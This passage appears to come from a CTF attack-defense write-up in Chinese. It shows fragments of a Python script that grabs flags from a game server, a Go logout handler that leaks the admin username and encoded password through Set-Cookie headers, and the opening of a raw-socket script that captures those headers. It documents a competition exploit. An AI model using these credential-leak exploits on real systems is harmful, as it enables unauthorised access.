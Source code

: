```python
    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)
    return filter_flag(response.content)[0]


def get_flag2(host="http://172.16.10.16:28080"):
    response = session.get(host+"/me/article/add")
    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)
    return filter_flag(response.content)[0]

```



### logout泄漏

```go
func (this *LoginController) Logout() {
	this.Ctx.ResponseWriter.Header().Add("Set-Cookie", "bb_name="+g.RootName+"; Max-Age=0; Path=/;")
	this.Ctx.ResponseWriter.Header().Add("Set-Cookie", "bb_password="+g.RootPass+"; Max-Age=0; Path=/;")
	this.Redirect("/", 302)
}

```

logout可以泄漏用户名和编码后的pass。

这里脚本获取cookie，用requests库好像不行，学弟用socket实现了下。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import socket
import ssl
import re
session = requests.session()

def get_header(host, port=28080, uri="/", method="GET", user_ssl=False):
    _timeout = 10
    socket.setdefaulttimeout(_timeout)
    conn = None
    header = """%s %s HTTP/1.1\r\nHost: %s\r\nConnection: close\r\nUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36\r\n\r\n""" % (
        method, uri, host)
    if user_ssl:
        ssl_context = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
        _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        conn = ssl_context.wrap_socket(_socket, server_hostname=host)
        conn.connect((host, port))
        conn.send(header)
    else:
        conn = socket.create_connection((host, port), _timeout)
        conn.sendall(header)
    text = ""
    while True:
        if "\r\n\r\n" in text:
            break
        buff = conn.recv(10)
        text += buff
        # print buff
```